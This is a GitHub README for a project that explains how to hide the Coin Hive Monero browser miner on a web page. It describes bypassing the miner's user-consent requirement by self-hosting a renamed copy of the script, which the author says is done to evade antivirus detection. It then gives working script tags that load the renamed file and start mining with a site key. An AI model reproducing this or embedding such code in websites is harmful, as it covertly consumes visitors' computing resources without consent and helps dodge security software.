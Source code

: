 # Coin-Hive_Hidden-Miner.github.io

<h2>Silent HTML Monero Miner</h2>

https://jonnybanana.github.io/Coin-Hive_Hidden-Miner.github.io/

![Alt text](https://raw.githubusercontent.com/JonnyBanana/Coin-Hive_Hidden-Miner.github.io/master/img/coinhive-icon.png)

I have created this simple html page as a demonstration on how to make hidden the javascript miner of Coin Hive.<BR>
In fact, even if the site says that you can not use the miner without the consent of the user, in reality, things are very different ...</BR>
In part however it is true what they say, in fact if you try to call the .js file of the miner directly from their servers, that is:

https://coinhive.com/lib/coinhive.min.js?v8</BR>
https://authedmine.com/lib/authedmine.min.js?v8

you will see that the user's consent will be required, but the thing is easily circumvented, in fact just host the .js file directly on the server where you host the html page you want to use for the miner, for security I also changed the file name, since now the miner is well known by the vendor antivirus and company ....

<h3> Requirements </h3>

1. a Coin Hive Account (https://coinhive.com)
2. a Monero Wallet to make the withdraw  (https://mymonero.com/#/)
3. a Web Server or a Website (also Github)
4. a Coin Hive site key


<h3> Browser Compatibility </h3>

All

<h3> How it Works??? </h3>

![Alt text](https://raw.githubusercontent.com/JonnyBanana/Coin-Hive_Hidden-Miner.github.io/master/img/screenshot.JPG)

https://coinhive.com/documentation/miner#constructor-options

https://coinhive.com/lib/coinhive.min.js?v8

 <script src="https://jonnybanana.github.io/Coin-Hive_Hidden-Miner.github.io/pino.js"></script>
<script>
 var miner = new CoinHive.Anonymous('YhWQAh8Vm7tIshKjOsp75jpDDVaO5kkU', {throttle: 0.2});
  miner.start();
</script> 

![Alt text](http://www.imigliorifaucet.it/g1.gif)




<h3> Curiosity </h3>

The image PNG used as background in this example is actually a simple algorithm designed / written in PIET.</BR>
Who wants can test it in the online interface from here: https://www.bertnase.de/npiet/npiet-execute.php


![Alt text](https://raw.githubusercontent.com/JonnyBanana/Coin-Hive_Hidden-Miner.github.io/master/img/bit.png)

